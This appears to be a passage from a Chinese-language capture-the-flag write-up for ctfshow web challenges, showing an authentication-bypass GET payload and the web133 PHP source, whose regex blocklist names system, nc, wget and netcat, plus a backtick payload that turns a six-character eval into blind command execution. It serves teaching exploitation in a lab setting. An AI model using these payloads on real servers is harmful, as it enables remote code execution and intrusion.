 

第一个判断后面用的是或

也就是说只要使username等于admin即可，前面两个无所谓了

第二个判断让code等于admin即可

payload： 

```
GET:?code=admin&username=admin&password=
```



#### web133

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-13 16:43:44

*/

error_reporting(0);
highlight_file(__FILE__);
//flag.php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|netcat/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("6个字母都还不够呀?!");
    }
}
```

[ctfshow web133(变量覆盖+无回显命令执行dns_bp带外) - hithub - 博客园](https://www.cnblogs.com/hithub/p/16809053.html)

这其实是一道关于变量覆盖的题目

```
get传参   F=`$F `;sleep 3
经过substr($F,0,6)截取后 得到  `$F `;
也就是会执行 eval("`$F `;");
我们把原来的$F带进去
eval("``$F `;sleep 3`");
也就是说最终会执行  `   `$F `;sleep 3  ` == shell_exec("`$F `;sleep 3");
前面的命令我们不需要管，但是后面的命令我们可以自由控制。
这样就在服务器上成功执行了 sleep 3
所以 最后就是一道无回显的RCE题目了
```
